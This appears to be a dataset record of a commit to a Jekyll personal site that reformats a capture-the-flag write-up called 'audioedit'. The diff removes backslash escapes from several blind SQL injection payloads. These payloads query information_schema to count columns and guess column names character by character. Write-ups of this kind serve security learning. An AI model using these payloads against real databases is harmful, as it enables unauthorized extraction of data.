

Before and after one commit to machinexa2/machinexa2.github.io, a Jekyll site: the page built from writeups/_posts/2020-09-19-audioedit.markdown, in a window 1280 px wide and 900 px high, scrolled down 4553 px. Shown: the whole window, without its empty margins (230-1049 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
03:22:15 PM 09/19/2020

````diff
--- a/writeups/_posts/2020-09-19-audioedit.markdown
+++ b/writeups/_posts/2020-09-19-audioedit.markdown
@@ -117,12 +117,12 @@ Unfortunately, its hard to include in payload thats why i did `substr()` method.
 `setcmd()` function is sligtly modifed and exploiting gives me `audioedit` which is same as database name.
 
 Ah, i was tired and irritated. Took some **caffeine** again and got started. For numbers of columns in that table, querying information schema i used this:
-`' and 2=2 or (SELECT substring(count(\*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`
+`' and 2=2 or (SELECT substring(count(*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`
 <br>
 So, columns number are 5, now what. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
 ```sql
 ' and 2=2 or (SELECT substr(column_name,1,1) FROM information_schema.columns where table_name='audioedit' limit 1 OFFSET 1)='a' or '
-' and 2=2 or (SELECT((SELECT count(\*) FROM information_schema.columns WHERE table_name = 'audioedit' and column_name LIKE 'xx%')=1)) or '
+' and 2=2 or (SELECT((SELECT count(*) FROM information_schema.columns WHERE table_name = 'audioedit' and column_name LIKE 'xx%')=1)) or '
 ' and 2=2 or (select substr(column_name,1,1)='y' from information_schema.columns where table_name = 'audioedit' limit 1,1) or '
 ```
 <br>
````
